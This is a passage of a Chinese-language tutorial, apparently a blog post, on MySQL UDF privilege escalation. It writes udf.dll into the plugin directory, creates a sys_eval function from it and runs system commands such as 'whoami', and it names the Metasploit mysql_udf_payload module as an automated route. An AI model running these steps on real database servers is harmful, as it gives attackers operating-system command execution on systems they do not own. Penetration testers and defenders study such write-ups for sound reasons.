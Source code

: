 ```
select * from mysql.func where name = 'sys_eval';    #查看创建的sys_eval函数
select sys_eval('whoami');                           #使用系统命令
```

执行 select data from temp into dumpfile "G:\\phpstudy_pro\\Extensions\\MySQL5.7.26\\lib\\plugin\\udf.dll"; 时有可能会出现以下错误，因为当 MySQL 大于 5.1 时，默认是没有 lib\plugin 目录的。而 into dumpfile 在写入文件时也不能创建文件夹，所以也就报错了：Can't create/write to file 

![](https://img-blog.csdnimg.cn/20200421141437925.png)

而在执行 create function sys_eval returns string soname 'udf.dll'; 命令时出现 1126 - Can't open shared library'udf.dll'的错误。我看网上有的解释是说是因为在 MySQL 安装目录下默认没有 lib\plugin 目录导致的。但是我不认为是这个错误，因为如果上一步将 dll 文件写到 lib\plugin 目录没报错的话，说明 dll 文件已经写到 lib\plugin 目录了，因此也就不存在这个错误。但是目前还没有找到解决版本。

![](https://img-blog.csdnimg.cn/20200421144731571.png)

**五：使用系统命令**

在将 udf.dll 文件写入 plugin 目录后，我们就可以使用 sys_eval 函数了。

```
create function sys_eval returns string soname "XJhSEGuE.dll";
select sys_eval("whoami");
```

### ![](https://img-blog.csdnimg.cn/20190923091328559.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

如果得到了数据库的用户名和密码，并且可以远程连接的话，可以使用 MSF 里面的 **exploit/multi/mysql/mysql_udf_payload** 模块自动注入。

### 使用 MSF 进行 UDF 提权

使用 MSF 中的 exploit/multi/mysql/mysql_udf_payload 模块也可以进行 UDF 提权。MSF 会将 dll 文件写入 lib\plugin \ 目录下 (前提是该目录存在，如果该目录不存在的话，则无法执行成功)，dll 文件名为任意创建的名字。该 dll 文件中包含 sys_exec() 和 sys_eval()两个函数，但是默认只创建 sys_exec()函数，该函数执行并不会有回显。我们可以手动创建 sys_eval() 函数，来执行有回显的命令。

![](https://img-blog.csdnimg.cn/20200507214158151.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

![](https://img-blog.csdnimg.cn/20200507214233517.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

```
select * from mysql.func where name = "sys_exec";
```

![](https://img-blog.csdnimg.cn/20200507214350972.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)

手动使用该 dll 文件创建 sys_eval() 函数，来执行有命令的回显。

```
create function sys_eval returns string soname "XJhSEGuE.dll";
select sys_eval("whoami");
```
